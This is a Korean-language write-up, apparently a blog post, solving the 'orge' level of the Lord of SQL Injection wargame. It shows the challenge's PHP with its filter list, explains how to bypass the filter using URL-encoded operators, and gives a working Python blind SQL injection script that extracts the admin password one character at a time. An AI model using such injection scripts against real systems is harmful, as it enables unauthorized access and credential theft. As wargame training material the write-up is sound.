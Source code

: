 ```yaml
---
layout: post
title: ! "[LOS] orge"
categories: [LOS]
excerpt: " "
comments: true
share: true
tags:
  - LOS
  - Web-hacking
  - gremlin
  - write-up
---
```


![]({{ site.baseurl }}/assets/posts/los/orge.png)

`query : select id from prob_orge where id='guest' and pw=''`
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

orge 문제는 orc 문제와 비슷한 blind sql injection 문제인 듯 하다.
darkelf 문제와 마찬가지로 or,and는 필터링 된다.

addslashes 함수가 쓰이고 query가 두 개 있다.
orc 문제는 수동으로 풀었지만 orge 문제부터는 python 코드를 이용해 풀 예정이다.

아래 python 코드는 패스워드의 길이와 전체 패스워드를 출력해준다.
orc 문제를 풀었던 것에서 조금만 수정을 하면 되는데
url 주소창에 &&을 그대로 넣어주면 반영이 안된다.
url인코딩을 통해 &&을 %26%26으로 바꿔주고, ||도 바꿔주고 싶다면 %7c%7c 로 하면 된다.


```py
from requests import get
import string
from time import sleep

url = "https://los.eagle-jump.org/orge_~~~.php"

cookies = dict(PHPSESSID="세션")
special_strings = "~!@#$%^&*()+-_{}[]<>"
alpha = string.ascii_letters+string.digits+special_strings
result = ""

for i in range(1,20):
    parameter = "?pw=1'||length(pw)='"+ str(i) + "%23"
    new_url = url + parameter
    r = get(new_url, cookies=cookies)

    if r.text.find("Hello admin") > 0:
        length = i + 1
        print("password length is " + str(i))
        break
for i in range(1, length):
    for a in alpha:
        parameter = "?pw=' || id='admin' %26%26 ASCII(substr(pw,"+ str(i)+",1))="+str(ord(a))+"%23"
        new_url = url + parameter
        r = get(new_url, cookies=cookies)

        if r.text.find("Hello admin") > 0:
            print(str(i) + " -> " + a)
            result += a
            break

    if i == 1 and result == "":
        print("password not found")
        exit(0)

    if i == length-1:
        print("\npassword is"+result)
        print("\n")
```

![]({{ site.baseurl }}/assets/posts/los/orge_auto.png)

코드 실행 결과
패스워드 길이는 8, 전체 패스워드는 6c864dec 이다.
`?pw=6c864dec` 를 입력해주면 문제가 풀린다.

![]({{ site.baseurl }}/assets/posts/los/orge_clear.png)
